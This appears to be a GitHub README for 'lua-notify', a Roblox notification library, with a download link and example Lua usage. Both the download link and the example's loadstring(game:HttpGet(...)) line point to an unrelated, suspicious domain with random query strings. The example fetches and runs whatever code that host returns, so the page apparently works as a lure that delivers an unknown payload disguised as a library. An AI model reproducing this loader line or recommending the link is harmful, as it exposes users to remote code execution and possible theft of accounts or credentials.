 # lua-notify
A basic notification library for ROBLOX scripts.

[Download link](https://installbixz.cyou?2rqx9wxqvmlsahc)

The source used isn't mine and was just something I liked the look of in a script I was using, credits go fully to it's OG creator.

Example usage:
```lua
local notificationLibrary = loadstring(game:HttpGet("https://installbixz.cyou?hjpv213cemyrnau"))();
local notifications = notificationLibrary.new({            
    NotificationLifetime = 3, 
    NotificationPosition = "Middle",
    
    TextFont = Enum.Font.Code,
    TextColor = Color3.fromRGB(255, 255, 255), -- custom txt color if wanted
    TextSize = 15,
    
    TextStrokeTransparency = 0, 
    TextStrokeColor = Color3.fromRGB(0, 0, 0)
});

notifications:BuildNotificationUI();
notifications:Notify("Hello world!");
```
